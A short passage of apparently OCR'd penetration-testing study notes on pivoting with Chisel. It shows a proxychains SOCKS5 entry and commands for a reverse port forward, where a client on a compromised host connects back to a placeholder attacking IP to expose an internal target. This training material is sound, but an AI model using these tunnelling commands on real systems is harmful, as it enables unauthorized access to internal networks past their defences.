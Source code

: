 

## Note: 
--------

Proxychains Reminder:
---------------------
## When sending data through either of these proxies, we would need to set the port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from socks4 to socks5:


[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080



Method Remote Port Forward:
---------------------------

## For a remote port forward, on our attacking machine we use the exact same command as before:

command: ./chisel server -p LISTEN_PORT --reverse &

## Once again this sets up a chisel listener for the compromised host to connect back to.
The command to connect back is slightly different this time, however:

command: ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

## You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons.


##  Note the distinction between the LISTEN_PORT and the LOCAL_PORT

==> LISTEN_PORT: this is the port that we started the chisel server on.

